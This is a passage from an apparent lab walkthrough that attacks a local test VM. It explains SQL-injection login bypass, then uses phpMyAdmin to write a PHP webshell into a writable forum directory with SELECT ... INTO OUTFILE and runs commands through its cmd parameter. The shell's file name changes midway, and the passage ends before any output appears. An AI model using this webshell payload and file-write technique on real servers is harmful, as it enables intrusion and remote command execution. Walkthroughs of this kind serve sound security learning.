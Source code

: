 #### **Step 6 - Backdoor webshell**

MySQL database can sometimes being vulnerable to SQL Injection to execute arbitrary commands. 
	
An SQL Injection allows an attacker to add logical expressions and additional commands to an existing SQL Query. It's possible when the user inputs data in not properly validated by an application. For instance :
```$sql_query = "select * from users where user='$user' and password='$pass'"``` is used to validate user login requests. If the user submitted data is not properly sanitized, it's possible to pass through the login step with specially crafted values. For example, if we change the value '$user' by **'admin' or '1'='1'**, the attacker we pass the login screen because **or '1'='1'** is always true, ignoring the value of the password.

Using that technique we can start writing arbitrary files, reading arbitrary files or even get a **webshell**.

Navigating through **/myphpadmin**, we notice clicking on the tab **SQL** that we can run a sql query on the server.

Let's craft our webshell. First we have to find a directory with write permissions in order to create a file, in this case a webshell php script. Let's try the common ones (temporary directories used by popular CMS) :

	-   https://192.168.56.103/forum/templates_compiled/
	-   https://192.168.56.103/forum/templates_c/
	-   https://192.168.56.103/forum/templates/
	-   https://192.168.56.103/forum/temporary/
	-   https://192.168.56.103/forum/images/
	-   https://192.168.56.103/forum/cache/
	-   https://192.168.56.103/forum/temp/
	-   https://192.168.56.103/forum/files/

https://192.168.56.103/forum/templates_c/ seems to be writable.

Then we can create a webshell PHP script in that directory. 

Here's how we create a file using MySQL command:
`select "text" into outfile "/var/www/forum/templates_c/file.txt"`

And here's how we create a webshell in php:
`<? php system($_REQUEST['cmd']); ?>`

Altogether we have:

`SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/forum/templates_c/php_shell.php"`

We can now access our webshell using this url : **https://192.168.56.103/forum/templates_c/php_shell.php**

To execute a command, we can append `?cmd=CMD` to the url, keeping in mind it has to be formatted for an url (we can then use a url encoder to have the right format.)

First, let's see where we are:

`https://192.168.56.103/forum/templates_c/php_shell.php?cmd=pwd` tells us we in /var/www/forum/templates_c as expected.

Now we can explore the directory tree, and try to list what's in the **/home** directory. In a simple shell we would do `cd /home; ls -la`, encoding this we get : 

`https://192.168.56.103/forum/templates_c/termmm.php?cmd=cd%20%2Fhome%3B%20ls%20-la` 

This command give us: 

```